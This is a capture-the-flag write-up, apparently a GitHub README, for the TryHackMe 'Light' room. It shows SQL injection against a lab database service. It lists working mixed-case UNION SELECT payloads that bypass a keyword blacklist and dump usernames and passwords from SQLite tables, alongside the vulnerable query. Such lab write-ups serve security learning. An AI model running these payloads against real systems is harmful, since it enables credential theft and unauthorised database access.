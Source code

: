 # 💡 TryHackMe: Light – SQL Injection Writeup
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-blue?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-Chill%20Hack-success?style=flat-square&logo=tryhackme)](https://tryhackme.com/room/lightroom)
> **Category:** Databases / SQLi  
> **Difficulty:** Beginner → Intermediate  
> **Target IP:** `MACHINE_IP`  
> **Port:** `1337`  
> **Protocol:** Custom TCP (textbaserad tjänst)

---

## 🧠 Challenge Description

> I am working on a database application called Light! Would you like to try it out?  
> If so, the application is running on **port 1337**. You can connect to it using:  
> `nc MACHINE_IP 1337`  
> You can use the username `smokey` in order to get started.  
>  
> **Note:** Please allow the service 2 - 3 minutes to fully start before connecting to it.

---

## 📝 Questions

1. ❓ What is the admin username?  
2. ❓ What is the password to the username mentioned in question 1?  
3. 🏁 What is the flag?

---

## ⚙️ Initial Access

We connect using netcat:

```bash
nc MACHINE_IP 1337
```

Entering `smokey` as the username results in the application auto-filling a password and looping the login.

![Login prompt](https://jull3.se/thm/writeup/nc_login.png?cachebust=20240513)

No output or shell is returned, so we suspect some form of **SQL injection** might be possible via the username prompt.

---

## 💉 SQL Injection Discovery

We test a basic `'` payload and receive an error indicating broken syntax.  
By carefully experimenting with **case-bypassed UNION SELECT** payloads (to avoid keyword blacklists), we find working SQLi vectors.

Eventually, we identify that payloads like the following yield valid responses:

### 🔎 Payloads Used:

```sql
' UniOn SeLeCt sqlite_version() '
' UniOn SeLeCt group_concat(sql) FROM sqlite_master '
' UniOn SeLeCt group_concat(username) FROM usertable '
' UniOn SeLeCt group_concat(password) FROM usertable '
' UniOn SeLeCt group_concat(username) FROM admintable '
' UniOn SeLeCt group_concat(password) FROM admintable '
```

We automate this process using a Python script (`sqli.py` in this repo).

### 🖼️ SQLi Output Sample:

![SQLi Payload Output](https://jull3.se/thm/writeup/sqli.png)

---

## ✅ Answers

| Question | Answer |
|----------|--------|
| **Admin username** | `XXXXXXXXXXX` |
| **Admin password** | `maXXXXXXXXXXXXXX` |
| **Flag**           | `THM{SQLXXXXXXXXXXX}` |

---

## 🧠 Notes

- Backend DBMS: **SQLite 3.31.1**
- Application logic: `SELECT * FROM users WHERE username = '{input}' LIMIT 30;`
- Vulnerable input: **username prompt**
- Blacklist bypass: mixed-case `UniOn SeLeCt`
- Comment symbols like `--`, `#` were **filtered**, so `' ... '` was used to close queries cleanly

---

## 📜 Script (optional)

We used a Python socket script (`sqli.py`) to automate sending payloads and capturing responses.

---

🧠 Happy hacking,  
🧢 [Jull3Hax0r](https://jull3.se)

